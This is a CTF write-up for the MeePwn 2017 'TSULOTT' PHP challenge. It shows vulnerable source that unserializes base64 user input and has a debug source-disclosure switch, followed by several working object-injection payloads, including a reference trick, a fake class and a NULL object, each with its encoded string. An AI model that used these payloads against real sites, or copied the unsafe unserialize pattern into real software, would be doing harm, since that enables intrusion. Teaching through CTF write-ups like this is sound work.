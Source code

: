 #### First thing first: this is the php code, read it in raw


 ```
<?php
class Object 
{ 
  var $jackpot;
  var $enter; 
}
?>


<?php

include('secret.php');

if(isset($_GET['input']))  
{
  $obj = unserialize(base64_decode($_GET['input']));
  if($obj)
  {
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99); 
    if($obj->enter === $obj->jackpot)
    {
      echo "<center><strong><font color='white'>CONGRATULATION! You Won JACKPOT PriZe !!! </font></strong></center>". "<br><center><strong><font color='white' size='20'>".$obj->jackpot."</font></strong></center>";
      echo "<br><center><strong><font color='green' size='25'>".$flag."</font></strong></center><br>";
      echo "<centerx><imgxx src=' ' /></center>";

    }
    else
    {
      echo "<br><br><center><strong><font color='white'>Wrong! True Six Numbers Are: </font></strong></center>". "<br><center><strong><font color='white' size='25'>".$obj->jackpot."</font></strong></center><br>";
    }
  }
  else
  {
    echo "<center><strong><font color='white'>- Something wrong, do not hack us please! -</font></strong></center>";
  }
}
else
{
  echo "";
}
?>
<center>
<br><h2><font color='yellow' size=8>-- TSU</font><font color='red' size=8>LOTT --</font></h2>
<p><p><font color='white'>Input your code to win jackpot!</font><p>
<form>
          <input type="text" name="input" /><p><p>
          <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<?php
if (isset($_GET['gen_code']) && !empty($_GET['gen_code']))
{
  $temp = new Object;
  $temp->enter=$_GET['gen_code'];
  $code=base64_encode(serialize($temp)); 
  echo '<center><font color=\'white\'>Here is your code, please use it to Lott: <strong>'.$code.'</strong></font></center>';
}
?>
<center>
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font>
<h3><font color='white'>Take code</font></h3><p>
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p>
<form>
      <input type="text" name="gen_code" maxlength="17" /><p><p>
      <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<!-- debug: GET is_debug=1 -->
<?php
if(isset($_GET['is_debug']) && $_GET['is_debug']==='1')
{
   show_source(__FILE__);
}
?>
 ```
### The important part is unserialize(base64_decode($_GET['input']));

### In The HTML, There will be 2 input: one is to serialize and the other is to unserilize it

- At first I was think about pointing the $obj->enter become $obj->jackpot, but it doesn't really work

- The second method would be create another serialize object outside **(fake object)** and make $obj->enter == $obj->jackpot

 ```
<?php
class Objects {
	var $jackpot;
	var $enter;

	function __construct() {
		$this->enter = &$this->jackpot;
	}
}
$input = new Objects();
echo base64_encode(serialize($input));
?>
 ```
### Some other way:
1. elegura.wolfe (english) (fake object way): https://advancedpersistentjest.com/2017/07/17/writeup-tsulott-meepwn/
2. clayday (english) (reference way): http://blog.clayday.id/tsulott-meepwn-ctf-2017-writeup/
3. foo-manroot (english) (dumping data via magic _destruct, but i think the author is wrong, its still compare null): https://foomanroot.github.io/post/ctf/meepwn/write-up/2017/09/28/meepwn-web.html
4. bl4ckpr15m (english) (compare null): https://github.com/bl4ckpr15m/CTF-Writeups/blob/master/2017/MeePwn/web/TSULOTT/writeup%20%5Bby%20Jorge%20Chato%5D.md 

#### 1.Fake object:
- An “object” class is also defined in the source code:
 ```
class Object 
{ 
 var $jackpot;
 var $enter; 
}
 ```
- The path to explotiation lies in creating a fake object, called something else (not “Object”, which seems to cause PHP to use it’s own class definition), which passes the “$obj->enter === $obj->jackpot” check, but doesn’t allow $obj->jackpot to be overwritten. Helpfully, PHP allows us to define “protected” properties, which cannot be modified, as per below:
 ```
class Test{
 protected $_data = array(
 "jackpot" => "12345"
 );
 var $enter;
}
 ```
#### 3. Cool way:
 ```
$ php -a
Interactive mode enabled

php > class Exploit
php > {
php {	function __destruct ()
php {	{
php {		var_dump ($flag);
php {	}
php { }
php > echo base64_encode (serialize (new Exploit ()));
PHP Notice:  Undefined variable: flag in php shell code on line 5
NULL
Tzo3OiJFeHBsb2l0IjowOnt9

When we request /?input=Tzo3OiJFeHBsb2l0IjowOnt9, we get the flag:
 ```

#### 4.Just create a object, NULL is cool:
Our only chance is generate a completely random object and encoded with base64.
- [https://www.tools4noobs.com/online_php_functions/base64_encode/](https://www.tools4noobs.com/online_php_functions/base64_encode/)
- Generate a random object, in this case an object Test who have 2 attributes (jackpot and enter) both of them NULL
    ```json
        INPUT: O:4:"Test":2:{s:7:"jackpot";N;s:5:"enter";N;}
    ```
    ```json
        OUTPUT: "Tzo0OiJUZXN0IjoyOntzOjc6ImphY2twb3QiO047czo1OiJlbnRlciI7Tjt9"
    ```


